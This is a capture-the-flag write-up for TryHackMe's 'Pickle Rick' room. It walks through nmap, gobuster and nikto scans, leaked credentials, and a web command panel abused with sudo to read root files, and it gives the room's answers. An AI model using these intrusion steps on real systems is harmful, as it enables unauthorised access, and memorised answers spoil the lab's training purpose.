 +++
title = "Pickle Rick"
official = "TryHackMe"
date = 2024-09-28T16:41:31+03:00
draft = false
+++

#### Source: [TryHackMe](https://tryhackme.com/r/room/picklerick)
&nbsp;
### Objective:
***
***Obj_1 -> What is the first ingredient that Rick needs?***  
***Obj_2 -> What is the second ingredient in Rick’s potion?***  
***Obj_3 -> What is the last and final ingredient?***  
&nbsp;  
&nbsp;
### Methodology:
***
1. **nmap -sV -v {target_ip}**  

    Info:
    - 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    - 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
***
2. **browser search {target_ip}**  

    Info:
    - Inspected the page and found a comment,  
      Note to self, remember username! Username: R1ckRul3s
***
3. **gobuster dir -u http://{target_ip} -w {path_to_wordlist}**  

    Info:
    - /.hta (Status: 403)
    - /.htaccess (Status: 403)
    - /.htpasswd (Status: 403)
    - /assets (Status: 301)
      - Index of /assets
        - Parent Directory
        - bootstrap.min.css	2019-02-10 16:37 	119K	 
        - bootstrap.min.js	2019-02-10 16:37 	37K	 
        - fail.gif	2019-02-10 16:37 	49K	 
        - jquery.min.js	2019-02-10 16:37 	85K	 
        - picklerick.gif	2019-02-10 16:37 	222K	 
        - portal.jpg	2019-02-10 16:37 	50K	 
        - rickandmorty.jpeg	2019-02-10 16:37 	488K	 
    - /index.html (Status: 200)
    - /robots.txt (Status: 200)
      - Wubbalubbadubdub
    - /server-status (Status: 403)
***
4. **nikto -host {target_ip}**  

    Info:
    - Server: Apache/2.4.41 (Ubuntu)
    - Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
    - The anti-clickjacking X-Frame-Options header is not present.
    - No CGI Directories found (use '-C all' to force check all possible dirs)
    - "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
    - Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
    - Cookie PHPSESSID created without the httponly flag
    - /login.php: Admin login page/section found.
    - 6544 items checked: 0 error(s) and 6 item(s) reported on remote host
***
5. **browser search {target_ip}/login.php** 

    Info:
    - Username: R1ckRul3s
    - Password: Wubbalubbadubdub
***
6. **browser search {target_ip}/portal.php**  

    Info:
    - Command Panel
      - ls
        - Sup3rS3cretPickl3Ingred.txt
        - assets
        - clue.txt
        - denied.php
        - index.html
        - login.php
        - portal.php
        - robots.txt
***
7. **browser search {target_ip}/Sup3rS3cretPickl3Ingred.txt**  

    Info:
    - ***Obj_1 -> mr. meeseek hair***
***
8. **browser search {target_ip}/clue.txt**  

    Info:
    - Look around the file system for the other ingredient.
***
9. **browser search {target_ip}/portal.php**  

    Info:
    - Command Panel
      - la -la /home/rick/
        - -rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
***
10. **browser search {target_ip}/portal.php**  

    Info:
    - sudo -l
      - (ALL) NOPASSWD: ALL
***
11. **browser search {target_ip}/portal.php**  

    Info:
    - less /home/rick/"second ingredients"
      - ***Obj_2 -> 1 jerry tear***
***
12. **browser search {target_ip}/portal.php**  

    Info:
    - sudo ls -la /root
      - -rw-------  1 root root  168 Jul 11 11:18 .bash_history
      - -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
      - -rw-r--r--  1 root root  161 Jan  2  2024 .profile
      - drwx------  2 root root 4096 Feb 10  2019 .ssh
      - -rw-------  1 root root  702 Jul 11 10:17 .viminfo
      - -rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
      - drwxr-xr-x  4 root root 4096 Jul 11 10:53 snap
***
13. **browser search {target_ip}/portal.php**  

    Info:  
    - sudo less /root/3rd.txt
      - ***Obj_3 -> fleeb juice***
